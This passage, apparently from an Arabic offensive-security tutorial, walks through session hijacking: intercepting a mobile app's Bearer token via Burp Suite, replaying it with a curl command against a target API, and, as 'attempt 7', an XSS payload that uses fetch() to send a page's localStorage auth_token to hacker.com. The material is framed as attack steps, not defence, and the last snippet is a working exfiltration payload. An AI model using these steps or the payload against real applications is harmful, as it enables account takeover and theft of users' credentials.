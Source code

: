#### ١. تكوين Burp Suite كبروكسي للجهاز المحمول
- ضبط الإعدادات في Wi-Fi → استخدام IP البروكسي والبورت

#### ٢. تشغيل التطبيق وإجراء تسجيل دخول
- التقاط الطلب في Burp Proxy

#### ٣. الحصول على التوكن
- غالبًا موجود في:
  - Authorization Header:
    ```http
    Authorization: Bearer abc123xyz
    ```
  - Body of the response

#### ٤. إعادة استخدام التوكن في طلب جديد
- باستخدام cURL أو Postman:
```bash
curl -H "Authorization: Bearer abc123xyz" https://api.target.com/user
```

#### 🛠️ الأدوات:
- Burp Suite
- Charles Proxy
- Fiddler
- Android Studio Emulator

#### 💡 شروط النجاح:
- التطبيق لا يستخدم HTTPS بشكل صحيح
- API لا يقوم بتجديد التوكن عند كل طلب

---

# 🧪 Session Hijacking – المحاولة 7: استخدام LocalStorage/sessionStorage

### 📌 الفكرة:
بعض التطبيقات الحديثة تستخدم HTML5 Storage بدلاً من الكوكيز.

### ⚙️ الخطوات:

#### ١. اكتشاف استخدام localStorage
- في DevTools:
```javascript
localStorage.getItem("auth_token");
```

#### ٢. كتابة XSS ليقرأ القيمة
```html
<script>
  fetch("https://hacker.com/token?="+localStorage.getItem("auth_token"));
</script>
```
